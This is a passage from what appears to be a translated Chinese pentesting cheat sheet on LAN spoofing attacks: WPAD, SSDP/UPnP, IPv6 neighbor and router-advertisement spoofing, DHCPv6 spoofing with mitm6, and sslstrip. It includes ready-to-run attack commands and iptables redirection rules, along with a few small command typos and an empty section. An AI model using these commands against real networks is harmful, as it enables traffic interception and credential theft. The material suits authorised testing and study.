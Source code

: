 ### [欺骗 WPAD](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)

浏览器通常使用 **Web 代理自动发现 (WPAD) 协议自动获取代理设置**。这涉及从服务器获取配置详细信息，具体通过一个 URL，例如 "http://wpad.example.org/wpad.dat"。客户端可以通过各种机制发现此服务器：

* 通过 **DHCP**，其中发现通过使用特殊代码 252 条目来促进。
* 通过 **DNS**，这涉及在本地域中搜索标记为 _wpad_ 的主机名。
* 通过 **Microsoft LLMNR 和 NBT-NS**，这些是 DNS 查询未成功时使用的后备机制。

工具 Responder 利用此协议，充当 **恶意 WPAD 服务器**。它使用 DHCP、DNS、LLMNR 和 NBT-NS 误导客户端连接到它。要深入了解如何使用 Responder 冒充服务 [请查看此处](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)。

### [欺骗 SSDP 和 UPnP 设备](spoofing-ssdp-and-upnp-devices.md)

您可以在网络中提供不同的服务，以尝试 **欺骗用户** 输入一些 **明文凭据**。**关于此攻击的更多信息在** [**欺骗 SSDP 和 UPnP 设备**](spoofing-ssdp-and-upnp-devices.md)**。**

### IPv6 邻居欺骗

此攻击与 ARP 欺骗非常相似，但在 IPv6 世界中。您可以让受害者认为 GW 的 IPv6 拥有攻击者的 MAC。
```bash
sudo parasite6 -l eth0 # This option will respond to every requests spoofing the address that was requested
sudo fake_advertise6 -r -w 2 eth0 <Router_IPv6> #This option will send the Neighbor Advertisement packet every 2 seconds
```
### IPv6路由器广告欺骗/洪水攻击

一些操作系统默认通过网络中发送的RA数据包配置网关。要将攻击者声明为IPv6路由器，可以使用：
```bash
sysctl -w net.ipv6.conf.all.forwarding=1 4
ip route add default via <ROUTER_IPv6> dev wlan0
fake_router6 wlan0 fe80::01/16
```
### IPv6 DHCP 欺骗

默认情况下，一些操作系统尝试通过网络中的 DHCPv6 数据包来配置 DNS。然后，攻击者可以发送一个 DHCPv6 数据包，将自己配置为 DNS。DHCP 还为受害者提供了一个 IPv6 地址。
```bash
dhcp6.spoof on
dhcp6.spoof.domains <list of domains>

mitm6
```
### HTTP (假页面和JS代码注入)

## 互联网攻击

### sslStrip

基本上，这种攻击的作用是，当**用户**尝试**访问**一个**HTTP**页面并被**重定向**到**HTTPS**版本时，**sslStrip**将**保持**与**客户端的HTTP连接**和与**服务器的HTTPS连接**，这样它就能够以**明文**形式**嗅探**连接。
```bash
apt-get install sslstrip
sslstrip -w /tmp/sslstrip.log --all - l 10000 -f -k
#iptables --flush
#iptables --flush -t nat
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
iptables -A INPUT -p tcp --destination-port 10000 -j ACCEPT
```
更多信息 [这里](https://www.blackhat.com/presentations/bh-dc-09/Marlinspike/BlackHat-DC-09-Marlinspike-Defeating-SSL.pdf)。
